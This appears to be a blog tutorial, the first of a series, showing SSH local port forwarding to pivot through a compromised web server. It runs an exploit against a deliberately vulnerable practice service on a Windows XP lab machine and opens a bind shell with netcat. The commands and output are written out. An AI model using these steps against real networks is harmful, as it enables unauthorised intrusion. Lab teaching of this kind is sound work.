 
Pivoting is a technique that allows attackers to use a compromised system to attack other machines in the same network, or more devastatingly, machines in another network that the compromised machine has access to. There are several techniques that can be used to pivot deeper into the network, and I'll be describing some of them in the next few articles. I've found that this topic can be a bit confusing to beginners, and I hope that these articles will help clear things up. In this article, we'll look at pivoting with SSH.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-06/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

Since we have SSH access to the web server, we can use SSH port forwarding to use it as our pivot. We run the following command on our attacking machine: 

```
ssh -L 127.0.0.1:10000:192.168.63.142:10000 webmaster@192.168.81.181
```

This tells SSH that we want to forward connections to port 10000 on our machine to port 10000 on 192.168.63.141 (Windows XP) through 192.168.81.181 (web server).

Once we've authenticated and logged in to 192.168.81.181, we can verify that port 10000 is running on our machine: 

```
# netstat -antp | grep 10000
tcp        0      0 127.0.0.1:10000         0.0.0.0:*               LISTEN      8230/ssh
```

We're ready to run our exploit. Our exploit takes two arguments, the target's IP address and the port to connect to. Since we are pivoting our attack through the web server, we specify port 10000 on our own machine: 

```
# ./serverstrcpy.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done, check port 4444 on target
```

The exploit claims to be successful, and we can verify it by using netcat to connect to port 4444 on the target. Keep in mind that we do not have direct access to the target, so we have to use SSH's local port forwarding again. This time, we forward port 4444 on our machine to port 4444 on the target: 

```
ssh -L 127.0.0.1:4444:192.168.63.142:4444 webmaster@192.168.81.181
```

Now when we connect to port 4444 on our machine with netcat, we get a shell on the Windows XP machine: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\WINDOWS\system32>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\WINDOWS\system32>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the Windows XP machine on the internal network. That concludes the first part of this series of pivoting articles. In part 2, we'll look at using Proxychains to pivot our exploit and hack into the Windows XP machine. 

